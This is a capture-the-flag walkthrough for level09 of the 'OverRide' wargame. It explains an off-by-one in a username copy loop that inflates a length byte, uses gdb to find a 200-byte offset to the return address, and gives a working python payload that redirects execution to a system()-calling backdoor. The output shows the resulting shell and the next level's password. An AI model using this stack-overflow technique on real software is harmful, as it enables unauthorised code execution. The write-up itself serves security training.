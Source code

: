 ## WALKTHROUGH - LEVEL09

---

The program waits for a username and a password, but there is a **small error in
the code** which allows us to **overwrite by 1 byte the username buffer** and so we can **control the variable size in** the limit of \xff (255).

```c
	index = 0;
	while (index <= 40 && username[index] != 0)
	{
		msg->username[index] = username[index];
		index++;
	}
```

So we can **fill the username buffer** with an **offset of 40**, **followed by "\xff"**, and the program will **copy at most 255 bytes on the content buffer** instead of 140.

---

We then need to **find the offset to overwrite RIP**:

- `offset = RETURN address - start of buffer`

or

- `offset = EBP address - start of the buffer + 0x8`

So we put a **breakpoint after the stack allocation** on the **handle_msg function**. We know **the buffer is on the 1st address of the stack** so:

```gdb
Breakpoint 1, 0x00005555555548cb in handle_msg ()
(gdb) info reg $esp $ebp
esp            0xffffe3f0	-7184
ebp            0xffffe4b0	-6992
(gdb) p 0xffffe4b0-0xffffe3f0+8
$5 = 200
```

So we need to use **an offset of 200 bytes** before **having access to the RETURN address**.

---

We can also see that there is a **secret_backdoor function** that will **open the content of a buffer it will receive with system**. Its address is:

```gdb
(gdb) p *secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

So we can **overwrite the RETURN address** of handle_msg **with the address of the secret_backdoor** function in little endian:

```sh
level09@OverRide:~$ cat <(python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"') - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
level09@OverRide:~$ su end
Password: 
end@OverRide:~$ cat end
GG !
```
